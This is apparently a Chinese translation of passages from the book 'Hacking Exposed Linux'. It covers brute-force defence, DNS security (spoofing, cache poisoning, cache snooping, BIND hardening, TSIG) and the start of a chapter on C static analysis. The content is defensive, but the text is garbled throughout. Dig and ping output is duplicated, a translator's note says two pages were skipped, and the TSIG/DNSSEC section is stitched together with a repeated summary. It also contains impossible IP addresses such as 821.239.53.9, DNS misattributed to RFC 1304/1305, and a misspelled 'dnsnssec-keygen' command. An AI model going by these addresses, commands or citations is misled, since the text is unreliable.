暴力破解或字典攻击是攻击者工具箱中是最简单、技术含量低但有效的工具之一。它基于有一份用户名和密码列表，这些列表仅被用于有针对性地猜测有效的用户名/密码组合。人猜中用户名和密码的概率有多大？嗯，信不信由，如果网站配置不当，这种概率非常大；当然，用户的习惯被利用来转化了攻击者的优势。所有用户都必须拥有体面的密码；如果他们不遵守或您没有强制遵守，您将受到影响。

密码重置问题的创建是为了减轻支持中心或帮助热线的工作负量，因为用户往往会忘记密码。每个人在注册免费服务时，可能都至少被要求过一次选择一个秘密问题并输入答案。经典问题包括：

- 母亲的名字
- 驾照的最后几数字
- 出生地

这些问题的主要问题在于它们很容易被破解。

## 检测和管理暴力破解

阻止或防止暴力破解攻击是你可以采取的最重要的防御层之一。虽然人可能不会，但攻击者使用自动化工具寻找方法。你需要考虑以下几点：

- 读取、分析并管理您的日志。正如常一样，记录服务器活动很重要。你可以使用 `logwatch` (`http://www.logwatch.org`)，它通过电子邮件发送每日报告，涵盖使用情况、登录失败尝试等。另一个你可以使用的工具是 `Spl` (`http://www.splunk.com`)，它有一个免费版本。基本上，它为您的日志提供了一个基于 Web 的搜索引擎。

为您的安全添加 `IDS` 或 `IPS`。通过配置 `IDS/IPS` 解决方案可以在登录失败次数达到任何其他模式后拦截 IP，从而增加额外的安全级别。更改或避免 `admin`、`guest`、`demo` 等默认登录账号。

实施强密码策略。你可能在书中注意到，策略是组织非常重要的一部分。策略应该清楚地说明您的安全态。定义策略后，应强制执行。在服务器端创建密码的基本提示：

- 尽可能使用短语。短语通常容易记忆且通常符合已知参数。
- 最小长度为 8 个字符。
- 必须包含大和小字母。
- 必须包含数字和/或标点符号。
- 实现增量延迟。这有助于延迟用户名和密码的暴力破解过程。在每次登录失败后，下一次登录的延迟按指数级增加。例如，第一次延迟可以是 2 秒，下次可能是 10 秒，以此此类推。这种延迟可能不会让人类用户感到太恼，但当攻击者想要在几分钟内尝试数千次时，延迟将极大减慢他们的速度。

- 仔细措辞您的错误消息。最后但同样重要的是，为失败的尝试创建适当的错误消息。你应该确保不要提供过多的信息。考虑以下消息之间的区别：“未找到用户 ID，”、“密码错误，”和“用户名或密码错误。”。第一个告诉攻击者继续尝试不同的用户名。第二个告诉攻击者为该用户名尝试不同的密码。最后一个仅告知尝试失败了。请注意，有时攻击者仍然可以通过响应延迟判断是密码错误还是登录失败（如第 11 章所述）。

## 摘要

`SMTP` 服务是当今互联网上最重要的服务之一。然而，该服务的大多数问题源于邮件本身以及对用户的黑客攻击，而不是直接利用。试验表明，正因为这个原因，一个没有用户且未使用的邮件服务是非常安全的。无论是垃圾邮件、病毒、木马程序、钓鱼攻击还是用户枚举，攻击的焦点都集中在人身上，而在配置恰当的 `SMTP` 服务中，人是最薄弱的环节。请据此实施控制措施。

# 第 15 章

### 案例研究

周一早晨。新来的网络人员坐在长桌旁。他加入公司才一个周，正准备根据管理层的要求提交他对当前网络状态的评估报告。

“迈克，我们请你加入是因为你的网络经验和安全背景，”首席信息官（`CIO`）在迈克进入公司的第一个早晨对迈他说，“我们需要你用全新的眼光审视我们的网络，告诉我们目前处于什么水平，并建议我们应该往哪里发展。周五之前你应该完成评估。发送周一上午会议的邮件邀请，给你部门内所有需要考虑你评估的人员。”

十五张脸从他们面前薄薄的、装订好的报告上抬起来，转而盯着他看。面对满屋的人，他感到有些不安，这种会议也没有好到哪去，特别是因为他还有一些坏消息。

迈克询问是否所有受邀参加并列在议程中的人员都到了。大家交换了一下眼神，最后一个穿着暗灰色西装、脸色苍白消瘦的女性开口道：“罗纳·迈尔（Ronald Myer）不在。他两年前离开了公司。”

“在互联网泡沫破灭后他被裁员了，”一个小脸男人补充道。

“这真可怕，”迈克回答道，“因为他拥有你们的网络。”

“他什么？”`CIO` 问道。

“嗯，名义上的，”迈克回答道，“但也足够了，因为你们的客户和合作伙伴并不认识 `216.92.116.13`。他们访问你们时使用的是 `showthings.net`。不幸的是，罗纳在 2004 年注册了这些域名，并列为技术和账单联系人。这使他拥有这些域名的所有权，而它们将在几个月后过期。”

## 第 15 章：域名服务

1983 年 11 月，`RFC 882` 的引言以“域名的必要性”为标题开头。它是从网络甚至是实习生中发展出的更简单通信方式的“粘合剂”。域名系统（`DNS`）已成为互联网规模最大、最强大的部分之一。该协议是许多政治和商业交易以及交易破裂的根源。它已成为通信中如此重要的部分，以至于公司在为自己或产品选择名称之前，不会先检查该名称仍然存在。然而，尽管名称包含如此巨大的力量，但相关流程和服务正朝着安全高效性的方向发展。因此，域名系统已成为互联网各种恶意行为的主要战场之一——从钓鱼攻击到劫持注册商，再到攻击根地址服务器。

在基于 `TCP/IP` 的网络中，地址和路由是使用 `IP` 地址（如 `192.168.0.1`）执行的，但人们很难记住数字，因此域名系统或 `DNS` 是必须的。`DNS` 协议（`RFC 1304` 和 `RFC 1305` 及其后续更新）是让人们能够轻松识别的名称（如 `http://www.google.com` 和 `http://www.yahoo.com`）的“粘合剂”。

域名系统同 `BGP` 以及其他协议是当今网络（特别是互联网）的主要需求。你每天在无数次配置中（包括你的网页浏览）指定的是名称而非 `IP` 地址。正因如此，`DNS` 的问题可能会快速且深入地影响整个架构——即使你仍然仅通过 `IP` 地址就能访问服务。

除了名称的交互式翻译外，许多协议和应用程序在其主要活动中直接使用 `DNS`。最显著的例子是 `SMTP`，它使用 `DNS` 将电子邮件映射到各自的邮件服务器。`DNS` 也用于解析 `IP` 地址之上的信息，例如 `SPF` 记录、电话号码和地址（`http://e164.org` 就是一个例子）。它还用于证书以及存储在 `DNS` 区域记录中的信息，许多应用程序每天都会使用这些信息。

每当应用程序被指示通过其名称而非 `IP` 地址联系某个主机时，它都会查询本地配置中指定的 `DNS` 服务器。由于 `DNS` 流量是所有网络流量的组成部分，且许多服务依赖它进行传输，因此 `DNS` 的主要传输协议是用户数据报协议（`UDP`）。`UDP` 允许更快的通信和更小的开销。如果显式请求或回复大小超过 512 字节时，也会使用 `TCP`。在 `http://www.bind9.net/rfc` 可以找到所有 `DNS` 相关 `RFC` 的有用列表。

这里是 `ping` 工具执行 `DNS` 解析的示例：

```
$ ping cnsl.cw.net
PING cnsl.cw.net (141.1.1.1) 56(84) bytes of data.
64 bytes from cnsl.cw.net (141.1.1.1): icmp_seq=1 ttl=55 time=71.7 ms
64 bytes from euro-cnsl3.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=68.0 ms
```

## 黑客攻防：Linux 秘密

```
64 bytes from cns1.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=63.9 ms
64 bytes from euro-csl3.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=68.0 ms
```

```
64 bytes from cns1.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=63.9 ms
64 bytes from euro-csl3.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=68.0 ms
```

```
64 bytes from cns1.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=63.9 ms
64 bytes from euro-csl3.cw.net (141.1.1.1): icmp_seq=1 ttl=53 time=68.0 ms
```

# 破解 Linux 安全：Linux 安全秘密与解决方案

`CNAME` `www.l.google.com.`, `www.l.google.com.` `A` `64.233.183.104`, `www.l.google.com.` `A` `64.233.183.147`, `www.l.google.com.` `A` `64.233.183.99`, `www.l.google.com.` `A` `64.233.183.103` (34)

与 `TCP` 不同，这里没有序列号。`DNS`协议使用标识值（identification value）在内部跟踪回复的交付。在示例中，标识号为 49786，你可以在流量转储中清晰地看到它。

+ 请求 ID 数字后面的 "+" 表示进行了递归查询。这意味着你正在向目标名称请求所需的信息，并且你要求它在 `DNS` 树的深处执行所有必要的查询以获取最终答案。

从之前的输出中，你还可以看到 '`www.google.com`' 并没有直接解析到 `IP`。它解析为一个 `CNAME`，在本次回复中它是另一个名称 `www.l.google.com` 的别名。随后 `CNAME` 被解析为三个不同的 `IP` 地址。这样做是为了负载均衡的目的。每当客户端解析该名称时，它将获得不同的 `IP` 地址，可能还有不同的 `CNAME`。

如果你直接对 Google 服务器运行查询（使用通过之前所示查询获取的 `IP` 地址），你将看到略有不同的输出。

让我们强制使用特定的名称服务器：

```bash
$ dig @821.239.53.9 www.l.google.com
```

这里是 `tcpdump` 的输出：

```
17:34.20.27098 IP (tos 0x0, 64, id 0, offset 0, flags [DF], proto: UDP (17)
length: 62) 10.7.1.1055 > 216.239.53.93: 30188* A? www.l.google.com. (34)
17:34.20.49883 IP (tos 0x0, 44, id 32971, offset 0, flags [none], proto: UDP
(17), length: 126) 216.239.53.93 > 10.7.1.1055: 30188* 4/0/0
www.l.google.com. A 209.85.135.99,
www.l.google.com. A 209.85.135.104, www.l.google.com. A 209.85.135.103 (98)
```

首先，注意输出中的 `IP` 地址与之前的查询提供的不同。这是由于回复是动态的，并且取决于客户端 `IP` 地址空间等其他可能的因素。在这种情况下，你直接查询名称服务器，其他名称服务器不会像之前通过递归查询那样代你查询。

重要的区别在于 \* ，它表示权威回答位（authoritative answer bit）已设置，因为你正在查询的服务器配置为该域名称的权威服务器。在之前的查询中，该位是关闭的，因为信息是由他们的 `DNS` 服务器转发的。

# DNS 与 IPv6

到目前为止，我们展示了名称解析到 `IPv4` 地址的示例。然而，当 `IPv6` (`RFC 2460`) 部署时，`DNS` 将发挥重要作用。128 位地址空间（与 `IPv4` 相比）意味着每个连接组织都拥有更大的子网和范围。

这意味着子网端口扫描将无法顺序进行。使用名称将成为网络元素地址的主要方式（比现在重要得多），而且由于暴力扫描将不再可行，扫描技术将转向通过其他手段进行地址查找。当 `IPv6` 被完全采用时，`DNS` 服务器将增强其关键作用。

```bash
$ host netgroup2.ipv6.polito.it
netgroup2.ipv6.polito.it has address 130.192.86.4
netgroup2.ipv6.polito.it has IPv6 address 2001:6b8:401:3:213:0ff:fe18:9735
```


# 社会因素：DNS 与网络钓鱼

与某些计算机代码中 IP 地址的精确过程不同，人们对域名的使用要不严谨得多。`www.hotmail.com` 这个地址很容易被错打，而包含如 `http://www.rasbank.com-customer-service.gad7n.biz` 这种地址的电子邮件可以有效地用于钓鱼攻击，诱导用户进入恶意网站。

分心焉或缺乏知识的用户可能会将 URL 中的 `rasbank.portion` 误认为是有效的，但真正的顶级域名是 `gad7n.biz`。`customer-service` 子域名往往会让你感到更加困惑。这些用户还可能在警告不可信 SSL 证书的这一非常常见的对话框中点击“确定”，并被完全欺骗去使用他们网上银行网站的完美（但恶意的）副本。

虽然写错名称看起来是无害的，但域名抢注者（typosquatters）会利用这种错误。

# Hacking Exposed Linux: Linux 安全机密与解决方案

DNS 劫持攻击成功的后果至关重要，可能导致所有公共系统的全面沦陷以及敏感信息的广泛泄露。不言说，在注册域名时，应选择一个信誉良好且知名的注册商。

## 技术层面：欺骗、缓存投毒及其他攻击

你已经或多少看到了影响 DNS 基础设施安全的社会方面因素。现在我们来讨论技术方面。

正如你所见到的，在 DNS 事务中，通常会交换两个数据包。将响应与原始查询“粘合”在一起的信息片段是`标识字段（identification field）`。该字段具有 16 位的值，并且每次都应该随机选择该值。在最近的几年里，有几种实现方式没有随机选择该值，这导致了通过欺骗进行会话劫持的可能性。

攻击者可以通过向受害者的客户端发送一系列带有不同 ID 的数据包来猜出正确的 ID，希望其中一个数据包能与客户端查询中的 ID 匹配。当然，猜测 ID 只是过程的一部分，因为攻击者仍然需要猜测匹配的端口号，并在正确的时间小心地注入伪造的响应。

最新的实现方式不容易受到可预测 ID 编号的影响，但如果条件允许，欺骗在理论上总是可能的。当然，在可以进行二层劫持的本地局域网（LAN）上，DNS 欺骗是轻而易举的。

在这种背景下，伪造的响应并不一定需要指向客户端本身。攻击者还可以为受害者 DNS 服务器发出的查询伪造响应，从而投毒其缓存。这种方法的优势在于，如果该 DNS 服务器是一个开放解析器（open resolver），攻击者可以通过请求它解析一个自己的域名，然后伪造该查询的响应来增加成功几率。如果成功，这种攻击将“投毒”受害者 DNS 服务器的缓存，从而辅助恶意意图。

另一种类型的缓存投毒攻击包括向 DNS 响应中注入权威信息。攻击者会向受害者的 DNS 服务器请求（攻击者自己的）区域的解析。DNS 服务器将向攻击者域名的权威服务器请求此类信息，而该服务器由攻击者控制。

被请求域名的区域文件将包含一个额外的部分，其中与请求域名完全无关的条目（例如，`www.google.com` 的虚假 IP 地址），这样请求 DNS 服务器为了性能考虑，即使该条目不是请求的内容，也会缓存该信息。目前，大多数 DNS 服务器实现都配置为拒绝不符合原始查询的额外区域，但旧版系统仍然容易受到此类攻击。

某些协议并不完全依赖 DNS，而是提供了额外的身份验证层。最显著的例子是 TLS-或 SSL 加密连接（如 HTTPS），它们被用于通过受信任的认证机构签名的证书来验证你的端点。即使发生 DNS 劫持，攻击者也无法轻易提供有效的证书。遗憾的是，许多用户倾向于忽略浏览器呈现的 SSL 相关警告，而且应用程序之间的大多数连接也没有按要求强制执行证书验证。

某些协议（如 SSH）会缓存与主机关联的唯一 ID，因此任何 DNS 劫持尝试都会由于 ID 不匹配而引发错误：

```
[keymaker]:/home/epablio:~/.ssh 192.168.1.22

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

@ WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! #

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

```

**可能某人正在做某些坏事！** 现在可能有人正在监听你的通信（中间人攻击！）

也可能是 RSA 密钥刚刚被更改。远程主机发送的 RSA 密钥指纹为 ff87:b7:69:dc:f5:ef:8c:39:30:22:44:d2:68:60。

请联系你的系统管理员。将主机密钥添加到 `/home/epablio/.ssh/known_hosts` 以消除此消息。

位于 `/home/epablio/.ssh/known_hosts:25` 的 `192.168.1.22` 的 RSA 主机密钥已更改，且你请求了严格检查。

主机密钥验证失败。 [/example of ssh mismatch]

对于任何身份验证目的，依赖 DNS 以外的其他手段始终是良好的做法，并在你的配置中尽可能使用 IP 地址。

最后，DNS 缓存也可以用于检查你的 DNS 服务器是否一直在查询特定域名。这种技术被称为缓存嗅探（cache snooping）。如果你的 DNS 服务器接受来自任意地址的查询，它将立即提供已解析域的缓存信息，而不是将客户端重定向到顶级 DNS 服务器（如果它允许非递归查询），或者根本不回复查询。成功的缓存嗅探让攻击者能够轻松探测你的网络最近是否在浏览某个特定域名，这可以极地帮助社会工程学攻击。

此示例显示了简单的计时分析如何告诉你你正在查询的 DNS 服务器的用户最近一直在使用 Google 而不是 Excel。除了计时之外，你还可以从缓存的生存时间（TTL）中收集这些信息：在第一情况下，14400 的循环值是新缓存记录的证据，而 Google 的 TTL 138738 显示它已缓存了一段时间（与干净的 DNS 缓存进行简单的交叉检查显示，`www.google.com` 的默认 TTL 时间为 604800）。

```
$ time dig www.excite.com
```

```
; DIG 9.3 <<140.105.134 www.excite.com

;; global options: printcmd

;; Got answer:

;; -HEADER<- opcode: QUERY, status: NOERROR, id: 7685

;; flags: qr rd; QUERY: 1, ANSWER: 1, ADDITIONAL: 2

;; QUESTION SECTION :

;;www.excite.com.                IN      A

;; ANSWER SECTION:

www.excite.com.               14400   IN      A       208.45.133.23

;; AUTHORITY SECTION:

excite.com.                   172799   IN      NS      ns1-156.akam.net.

excite.com.                   172799   IN      NS      dns4.imgfarm.com.

excite.com.                   172799   IN      NS      dns5.imgfarm.com.

;; ADDITIONAL SECTION:

usel.net.                4180    IN      A       63.209.170.136

ns1-156.akam.net.       17866   IN      A       193.108.91.156
```

```
$ time dig www.google.com
```
; DIG 9.3 <<140.105.134 www.google.com
;; global options: printcmd
;; Got answer:
;; -HEADER<- opcode: QUERY, status: NOERROR, id: 37034
;; flags: qr rd; QUERY: 1, ANSWER: 3, AUTHORITY: 6, ADDITIONAL: 0

;; QUESTION SECTION :
;;www.google.com.                IN      A

;; ANSWER SECTION :
www.google.com.               138738 IN CNAME www.l.google.com.
www.l.google.com.               300    IN      A       66.249.85.99
www.l.google.com.               300    IN      A       66.249.85.104

;; AUTHORITY SECTION:
l.google.com.                   77277   IN      NS      a.l.google.com.
l.google.com.                   77277   IN      NS      b.l.google.com.
l.google.com.                   77277   IN      NS      c.l.google.com.
l.google.com.                   77277   IN      NS      d.l.google.com.
l.google.com.                   77277   IN      NS      e.l.google.com.
l.google.com.                   77277   IN      NS      g.l.google.com.

## 软件漏洞

| 流行度 | 7 |
| :--- | :--- |
| 简单性 | 8 |
| 影响 | 10 |
| 风险评分 | 8 |

遗憾的是，ISC 的 BIND 软件在过去几年中经历了大量的严重安全漏洞。因此，采取一些措施来保持 BIND 安装的安全非常重要。

## 保持软件更新

始终积极检查最新的 BIND 告和更新。运行已知的最新安全版本显然至关重要。

## 最小权限原则

你应该以尽可能少的权限运行 BIND。大多数软件包已经以 *named* 用户身份运行它，但你应该仔细检查。如果不是如此，请使用 `-u` 和 `-g` 标志来选择用户。

## 单点故障

| 流行度 | 5 |
| :--- | :--- |
| 简单性 | 5 |
| 影响 | 8 |
| 风险评分 | 6 |

DNS 的关键作用要求其可靠性和容错能力。如果某个特定的网络或域名仅由单一 DNS 服务器提供服务，那么该 DNS 服务器的故障将导致严重的服务中断，因为今天几乎所有的服务都依赖于将域名解析为 IP 地址以及反之的能力。

## 维护备服务器

所有感知 DNS 的软件都允许你在配置中提供备用和可能的三级服务器。此外，区域的 NameServer 记录（通常称为 NS 记录，指定其权威 DNS 服务器）允许多个指定：主服务器是 *master*，而备用服务器是 *slaves*。DNS 不也不应该对它们进行任何区分。

如果未能为你的区域或地址空间提供 DNS 记录（即使是暂时的），可能会导致拒绝服务状况，并产生有利于伪造攻击的场景。因此，你应该始终维护至少一个备用服务器的可靠基础设施。

```
$ dig -t ns google.com
```

```
; <<>> DiG 9.3.0 <<>> -t ns google.com

;; global options: printcmd

;; Got answer:

;; ->HEADER<< opcode: QUERY, status: NOERROR, id: 21063

;; flags: qr da ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 4
```

```
;; QUESTION SECTION:

google.com.
```

```
;; ANSWER SECTION:

google.com. 152248 IN NS ns1.google.com.

google.com. 152248 IN NS ns2.google.com.

google.com. 152248 IN NS ns3.google.com.

google.com. 152248 IN NS ns4.google.com.
```

```
;; ADDITIONAL SECTION:

ns1.google.com. 161231 IN A 216.239.32.10

ns2.google.com. 161231 IN A 216.239.34.10

ns3.google.com. 161231 IN A 216.239.36.10

ns4.google.com. 161231 IN A 216.239.38.10
```

```
;; Query time: 91 msec

;; SERVER: 140.105.134.#53(140.105.134.155)

;; WHEN: Sat Nov 4 16:39:20 2006

;; MSG SIZE rcvd: 164
```

## 通过暴露导致泄露

| 流行度: | 10 |
| :--- | :--- |
| 简单性: | 10 |
| 影响: | 2 |
| 风险评分: | 7 |

与所有网络软件一样，DNS 功能可能会经历不同程度的暴露，允许攻击者对服务器内部有更深入的洞和更好的理解。DNS 服务器带有至少一个网络的描述性信息，如主机名、子域名和 IP 地址。如果攻击者拥有这些信息，他或她可以在攻击之前仔细考虑你的网络。因此，系统管理员必须避免网络 DNS 服务器上的任何信息泄露。

## 安全区域传输

从管理角度来看，主服务器和从服务器的区别在于，存储你域名区域信息的物理文件仅存储在主服务器上。从服务器会根据预定义的间隔自动拉取并缓存主服务器数据库，或者在主服务器发布 NOTIFY 消息（通知其从服务器发生了变化）时拉取。

与通常通过 UDP 通道的普通 DNS 请求不同，区域传输始终通过 TCP 传输。

用于检查主服务器和从服务器之间区域文件一致性的信息是 *序列号*（serial number）。这里我们正在检查 google.com 的区域编号（为 1291839）：

```
<< DIG 9.3.0 >> -t soa www.google.com

; global options: printcmd

; answer:

;; ->HEADER<< opcode: QUERY, status: NOERROR, id: 567261

;; flags: qr ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 1
```
*(注：由于 520-521 页原始文本存在严重乱码，后续内容未在此处理)*

## 第 15 章：域名服务

### 487

...

);

这里是上一个示例的输出。你可以看到你现在被指向了一个根服务器而不是

```
$ dig www.google.com
```

```
; DIG 9.3.0 @fuse.inversepath.com www.google.com

;; global options: printcmd

;; Got answer:

;; ->HEADER-- opcode: QUERY, status: NOERROR, id: 34444

;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 13, ADDITIONAL: 13


;; QUESTION SECTION:
www.google.com

;; AUTHORITY SECTION:

| | | | |
|---|---|---|---|
| 518398 | IN | NS | M.ROOT-SERVERS.NET |
| 518398 | IN | NS | A.ROOT-SERVERS.NET |
| 518398 | IN | NS | B.ROOT-SERVERS.NET |
| 518398 | IN | NS | C.ROOT-SERVERS.NET |
| 518398 | IN | NS | D.ROOT-SERVERS.NET |
| 518398 | IN | NS | E.ROOT-SERVERS.NET |
| 518398 | IN | NS | F.ROOT-SERVERS.NET |
| 518398 | IN | NS | G.ROOT-SERVERS.NET |
| 518398 | IN | NS | H.ROOT-SERVERS.NET |
| 518398 | IN | NS | I.ROOT-SERVERS.NET |
| 518398 | IN | NS | J.ROOT-SERVERS.NET |
| 518398 | IN | NS | K.ROOT-SERVERS.NET |
| 518398 | IN | NS | L.ROOT-SERVERS.NET |

;; ADDITIONAL SECTION:

| | | | |
|---|---|---|---|
| A.ROOT-SERVERS.NET | 604798 | IN | A | 192.48.1.4 |
| B.ROOT-SERVERS.NET | 604798 | IN | A | 192.228.79.201 |
| C.ROOT-SERVERS.NET | 604798 | IN | A | 192.33.14.12 |
| D.ROOT-SERVERS.NET | 604798 | IN | A | 128.8.10.90 |
| E.ROOT-SERVERS.NET | 604798 | IN | A | 192.203.230.10 |
| F.ROOT-SERVERS.NET | 604798 | IN | A | 192.5.25.541 |
| G.ROOT-SERVERS.NET | 604798 | IN | A | 192.112.36.4 |
| H.ROOT-SERVERS.NET | 604798 | IN | A | 128.63.2.53 |
| I.ROOT-SERVERS.NET | 604798 | IN | A | 192.36.148.17 |
| J.ROOT-SERVERS.NET | 604798 | IN | A | 192.58.128.30 |
| K.ROOT-SERVERS.NET | 604798 | IN | A | 193.0.14.129 |
| L.ROOT-SERVERS.NET | 604798 | IN | A | 198.32.64.12 |

# Hacking Exposed Linux: Linux 安全秘密与解决方案

M.ROOT-SERVERS.NET. 604798 IN A 202.12.27.33

; Query time: 187 msec

;; SERVER: 69.60.119.224#53(fuse.inversepath.com)

;; WHEN: Sat Nov 4 17:36:13 2006

;; MSG SIZE rcvd: 451

为了实现完全锁定，你可以将递归和非递归查询限制在你的信任访问列表中，而且当然，你可以显式允许对你区域的查询：

```
options {

  ...

allow-transfer { xfer };

allow-recursion { trusted };

allow-query { trusted };

  ...

};
```

```
zone "ourdomain.com" {

  type master;

  file "ourdomain.com";

allow-query { any };

};
```

现在的示例查询不再返回任何结果了：

```
$ dig \www.google.com
```

```
; DiG 9.3.0 @fuse.inversepath.com www.google.com

;; global options: print: printcmd

;; Got answer:

;; ->HEADER-- opcode: QUERY, status: REFUSED, id: 31444

;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 13, ADDITIONAL: 13
```

;; QUESTION SECTION:
www.google.com

;; QUESTION SECTION:
www.google.com IN A

; Query time: 189 msec

;; SERVER: 69.60.119.224#53(fuse.inversepath.com)

;; WHEN: Sat Nov 4 17:36:34 2006

;; MSG SIZE rcvd: 32

## 版本隐藏

无法避免 BIND 允许你隐藏（并替换）它的版本号。虽然我们不提倡通过隐蔽来实现安全，但这不被视为防止指纹的可靠方法；隐藏版本号是一个值得提及的设置。

```
options {

    ...

    version "-";

};
```

这是更改设置后的版本查询示例：

```
; QUESTION SECTION:

version.bind. TXT
```

```
; ANSWER SECTION:

version.bind. 0 TXT
```

```
; AUTHORITY SECTION:

version.bind. 0 NS
```

; Query time: 86 msec

;; SERVER: 140.105.134#53(140.105.134)

;; WHEN: Sat Nov 4 17:59:10 2006

;; MSG SIZE rcvd: 60

## 反向映射 (PTR)

保持所有暴露 IP 地址的反向映射很重要。即使你不能为你的网络分配名称，可以使用像 `pool.domain.com` 这样的标准名称。此外，你应该确保你的直接解析与其 IP 地址的反向解析匹配。

# Hacking Exposed Linux: 安全秘密与解决方案

这些做法除了对节点友好外，还有助于调试并减少垃圾邮件检查（将缺失地址视为可能是垃圾邮件发送者）。

## 视图 (Views)

BIND 允许你在独立的视图中发布不想泄露到外部的区域。建议使用此功能来保护敏感名称并将内部 IP 地址区域限制在你的私有网络。

```
view "internal-in" {

    match-clients { trusted };

    recursion yes;

    ...

}
```

```
view "external-in" {

    match-clients { any };

    ...

}
```

## DNS 记录伪造

| 流行度 | 2 |
|---|---|
| 简单性 | 2 |
| 影响 | 10 |
| 风险评分 | 5 |

整个 DNS 系统主要基于明文 UDP 包（尽管某些情况下区域信息通过 TCP 传输）。由于系统是明文且 UDP 可以被伪造，DNS 是伪造答案和中间人攻击的的目标。

## DNS 与加密：TSIG 和 DNSSEC

DNS 规范的更新概述了使用 DNS 解决劫持、中毒和安全区域传输的问题。我们提到如何将区域传输限制为信任节点，由于区域信息的可能敏感性，创建了事务签名（TSIG, RFC 2845）。TSIG 允许你验证允许更新动态数据库的客户端，它通过使用发送方和接收方之间共享密钥计算的消息摘要对 DNS 消息进行签名。使用的函数是 128 位 HMAC-MD5。

## 第 15 章：域名服务

这是一个使用 TSIG 安全主从服务器之间区域传输的示例。我们使用示例名称 `tsigkey-domain.com` 作为密钥：

```
$ dnsnssec-keygen -a HMAC-MD5 -b 128 -n HOST tsigkey-ourdomain.com.
```

这导致了两个文件的：

- `Ktsigkey-ourdomain.com+.157+54730.key`
- `Ktsigkey-ourdomain.com+.157+54730.private`

```
$ cat Ktsigkey-ourdomain.com+.157+54730.key

tsigkey-ourdomain.com. IN KEY 512 3 157 hiYDa6iDNmPGkgttofRww==
```

可以使用 `key` 语句在你的配置中指定生成的密钥：

```
key tsigkey-ourdomain.com. {

  algorithm hmac-md5;

  secret "hiYDa6iDNmPGkgttofRww=";

}
```

你可以通过 `key` 语句强制对特定服务器的所有 DNS 流量进行签名：

```
server 10.1.7.10 {

  keys ( tsigkey-ourdomain.com; );

}
```

最后，在主服务器上，区域传输可以限制为签名节点：

```
zone "ourdomain.com" {

  type master;

  file "ourdomain.com";

  allow_query { any };

  allow-transfer { key tsigkey-ourdomain.com; };

}
```


TSIG 是一个简单的机制，正因为它缺乏灵活性。此外，DNSSEC 允许你通过私/公钥对来验证身份。这是通过让上层对公钥签名来实现的。例如，“ourdomain.com" 的 DS 记录将存储在父级 "com" 区域中。

TSIG 允许你使用比简单 IP 地址匹配更强的方法来验证允许更新动态数据库的客户端。

使用公钥签名还允许你使用发送方和接收方之间共享密钥计算的消息摘要。使用的函数是 128 位 `HMAC-MD5`。

DNSSEC 是一个复杂的协议，在过去几年中经历了多次实现，并在最近进行了重新设计。在本章中，你看到域名服务对互联网基础设施至关重要，以及这些服务如何增加攻击面。虽然许多攻击针对各种版本和类型的域名进程，但最大的威胁来自针对用户的攻击。本章关注了无法修复且对你使用域名服务影响最大的问题：网络钓鱼、垃圾邮件和 DNS 中毒。

### 总结

在本章中，你看到了域名服务对互联网基础设施非常重要，以及这些服务如何增加攻击面。虽然许多攻击针对各种版本和类型的域名进程，但最大的威胁来自针对用户的攻击。本章关注了无法修复且对你使用域名服务影响最大的问题：网络钓鱼、垃圾邮件和 DNS 中毒。

# 第四部分

## 维护与保养

本页特意留白

# 第16章

## 可靠性：C代码的静态分析

### 案例研究

在当今的计算机中，并非每个程序都是可靠的，许多桌面程序的可靠性与其失败的成本紧密相关。所产生的成本表明了软件的关键性程度。与安全相关的程序尤为关键，因为它们的失败可能导致人员死亡、严重伤害或资金损失。在核能、航天、医疗和运输领域可以找到此类程序。这些程序通常嵌入在更广泛的应用或设备中，在关键情况下，它们既无法于更新也无法修复。因此，在规范、设计和构建这些程序时，必须格外小心。

由于软件错误导致灾难性失败的案例发生在阿里安V号（Ariane V）发射器的首次飞行中（`http://www.esa.int/esaqub/bullet/dalma89.htm`）。该发射器在距离发射台上方400米高度飞行约42秒后，由于制导和高度信息完全丢失而发生爆炸。这些数据是由两个机载惯性参考系统（IRS）提供的。经过详细分析，确定这些IRS是为之前的阿里安IV号发射器设计并验证的，而不是为新的阿里安V型模型。IRS提供关于推力的数据，用16位表示。在阿里安V中，该值被复制到64位中。这种编码对于旧的发射器是足够的，但对于阿里安V则不足，16位无法表示更高的推力。随后发生了数据溢出，错误的16位整数在没有任何检查的情况下被移动到64位结果中，导致操作数错误。制导软件将其解释为主IRS的故障，并切换到冗余IRS，但后者也存在同样的问题。主系统的错误诊断将其解释为需要进行轨道修正的新飞行数据。最随机的修正导致发射器由于攻角超过了20°的限制而发生解体。在这一限制下，助推器与主载具分离，发射器自毁。

埃皮纳（Epinal）放射治疗事故系列是另一个未解释的案例（`http://www.johnsonsarchive.net/radovevents2004FRA1.html#http://iftlci.fr/inf/sciences/sante/0_3538589-accident-radiotherapy-300-nouveaux-cas-epinal.html`）。2004年5月至2005年8月期间，法国埃皮纳医院因误用放射治疗计划软件治疗24名患者导致了一起严重事故。放射治疗剂量高了20%。一名患者在2006年去世，13人受伤。2006年，人们注意到2001年至2006年间接受前腺癌治疗的患者受到了多处功能异常的影响。四百名患者接受的剂量超标了8%。经确定软件问题和人员培训不当是过错。2007年9月还报告了关于1989年至2000年期间的其他系统性功能异常，期间在500名患者中约有300名接受了7%的超照射。在本文写作时，对这些案例准确性的调查仍在继续。

# 第16章：可靠性：C代码的静态分析

本章介绍C代码的可靠性。信任代码意味着该代码可能是可靠的；换句话说，它不会崩溃或执行完全违背预期的操作。因此，对于不可靠的代码，确保每部分源代码都能正确执行并按照作者最初指定的规范执行至关重要。在这里，“正确”一词是至关重要的，正如在“C代码静态分析”中将看到的。。

